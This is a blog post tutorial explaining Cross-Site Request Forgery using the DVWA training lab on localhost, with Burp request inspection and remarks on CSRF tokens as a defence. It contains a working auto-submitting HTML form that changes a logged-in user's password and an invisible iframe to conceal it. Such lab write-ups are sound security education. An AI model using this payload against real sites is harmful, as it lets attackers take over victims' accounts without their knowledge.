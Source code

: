 ```yaml
---
layout: post
section-type: post
title: Exploring Cross-Site Request Forgery (CSRF) Attacks and How They Work
category: tech
tags: ["security", "redteam", "dvwa"]
---
```


Today we are going to explore Cross-Site Request Forgery (CSRF) attacks and how
they work. Although these attacks often start with social engineering tactics to
entice a victim to click on a malicious link, we will bypass this aspect and
focus only on the technical details of the attack.

Imagine a scenario where a user clicks on every link they receive without
considering the potential risks. This user may already be authenticated on
certain websites, making it possible for an attacker to issue requests on their
behalf. This is precisely what CSRF attacks entail.

To better illustrate the concept, let's take a look at the CSRF section of DVWA:

![csrf](/img/posts/csrf/csrf-0.png)

As shown, this is a password update page. It would be quite convenient for an
attacker if they could change the victim's password by exploiting this
vulnerability. By examining the request using Burp, we can see that it is a
simple GET request with two parameters - the new password and its verification:

![csrf](/img/posts/csrf/csrf-1.png)

To automate the request, we can create a page that triggers this request as soon
as it loads:

```html
<!-- csrf.html-->
<html>
  <body>
    <form
      action="http://127.0.0.1/dvwa/vulnerabilities/csrf/"
      method="GET"
      id="csrfForm"
      name="csrfForm"
    >
      <input name="password_new" value="password" />
      <input name="password_conf" value="password" />
      <input name="Change" value="Change" />
    </form>
    <script>
      document.forms["csrfForm"].submit();
    </script>
  </body>
</html>
```

Let's open the csrf.html file in our browser while we are already logged in to
DVWA:

![csrf](/img/posts/csrf/csrf-2.png)

The password has been successfully changed. This is because the browser
recognized our request to DVWA and loaded the user's cookies, including the
session id, thereby making our request appear completely legitimate. However, if
we were not logged into DVWA, or if we were to open the csrf.html file in a
private window, the attack would not work.

To make the attack less noticeable to the user, we can hide the csrf.html file
within an invisible iframe. This way, the user will not be able to detect that
anything malicious is happening.

```html
<html>
  <body>
    <iframe src="file:///root/Desktop/csrf.html" style="display:none" />
  </body>
</html>
```

Now, let's open the file:

![csrf](/img/posts/csrf/csrf-3.png)

Although CSRF is a powerful attack, it is not a common vulnerability in modern
web frameworks, since they automatically protect against it by adding a CSRF
token that must be included in POST requests. However, it is still useful to be
aware of this attack and its potential dangers, especially when it is combined
with other attacks such as XSS.
